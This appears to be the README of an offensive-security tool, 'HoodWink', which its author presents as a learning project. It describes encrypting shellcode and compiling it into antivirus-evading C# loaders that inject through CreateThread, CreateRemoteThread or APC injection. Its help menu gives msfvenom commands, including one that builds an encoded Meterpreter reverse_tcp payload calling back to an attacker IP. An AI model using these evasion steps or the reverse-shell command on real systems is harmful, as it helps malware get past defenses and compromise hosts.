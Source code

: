 # HoodWink
Simple AV Evasion Generator for me to learn evasion techniques

### Overview
Current
1. HoodWink will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (in help below) and compiled

<details>
<summary>Later versions will incorporate</summary>
More techniques
- Process Injection
- Process Hollow
- Thread Hijack
- ...

Misc
- PPID Spoofing
- BlockDlls
- Module Stomping
- ...

Do above techniques with
- both shellcode and dlls
- kernel32 and ntdll.dll (direct syscalls)
- In other languages (C++, Nim, ...)
</details>

#### Help Menu
```
Usage:
  ./HoodWink.exe msf.bin -i       # for inline
  ./HoodWink.exe msf.bin -t       # for inline: CreateThread
  ./HoodWink.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./HoodWink.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./HoodWink.exe msf.bin -a       # makes all of the above
Payload Examples:
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.159.138 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example
![Ex](./Images/hoodwink.png)

### Extras
<details>
<summary>Structure</summary>

HoodWink.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- HoodWinkService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>
